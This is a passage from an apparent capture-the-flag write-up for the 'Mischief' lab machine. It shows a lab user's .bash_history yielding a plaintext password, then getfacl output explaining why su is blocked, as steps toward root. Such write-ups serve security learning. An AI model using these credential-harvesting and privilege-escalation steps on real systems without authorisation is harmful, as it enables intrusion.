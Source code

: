 ### 3. Getting Root

In ".bash_history", we can find a possible credential "loki:lokipasswordmischieftrickery".
{% highlight shell %}
loki@Mischief:~$ cat .bash_history 
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
exit
free -mt
ifconfig
cd /etc/
sudo su
su
exit
su root
ls -la
sudo -l
ifconfig
id
cat .bash_history 
nano .bash_history 
exit

loki@Mischief:~$
{% endhighlight %}


We can find an interesting thing that user "loki" can't use a command "su" due to its permission.
{% highlight shell %}
loki@Mischief:~$ su root
-bash: /bin/su: Permission denied

loki@Mischief:~$ ls -l /bin/su
-rwsr-xr-x+ 1 root root 44664 Jan 25  2018 /bin/su

loki@Mischief:~$ 
{% endhighlight %}

This is because <a href="https://wiki.archlinux.org/index.php/Access_Control_Lists">Access Control List</a> doesn't allow user "loki" to execute the command.<br>
We can confirm that with "getfacl" command.
{% highlight shell %}
loki@Mischief:~$ getfacl /bin/su
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x

loki@Mischief:~$
{% endhighlight %}
